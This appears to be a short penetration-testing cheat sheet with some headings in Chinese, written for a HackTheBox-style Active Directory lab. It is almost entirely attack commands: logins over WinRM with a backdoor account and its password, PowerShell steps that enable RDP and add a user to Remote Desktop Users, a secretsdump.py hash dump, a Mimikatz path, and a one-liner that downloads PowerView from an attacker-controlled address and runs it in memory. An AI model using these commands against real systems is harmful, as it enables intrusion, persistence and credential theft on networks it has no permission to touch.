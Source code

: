 #  crackmapexec

`crackmapexec winrm 192.168.110.0/24 -u 'PAINTERS.HTB\backdoor_user' -p 'P@ssw0rd123!'`


# WinRM

`evil-winrm -i 192.168.110.53 -u backdoor_user -p 'P@ssw0rd123!'`


# RDP

#### 1. 启用 RDP 服务
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0

----

#### 2. 放行防火墙中的 RDP 端口（3389）
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

----

#### 3.  确认 RDP 服务已经启用
Get-Service -Name TermService

----

#### 4. 添加用户到 Remote Desktop Users 组
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "riley"

----

xfreerdp /u:riley /p:P@ssw0rd /d:painters.htb /v:192.168.110.56 /cert:ignore

----

# Hash Dump

secretsdump.py painters.htb/web_svc:'!QAZ1qaz'@192.168.110.52

`/usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1`

# PowerShell remote script

`iex (iwr http://10.10.14.3:443/PowerView.ps1 -UseBasicParsing)`


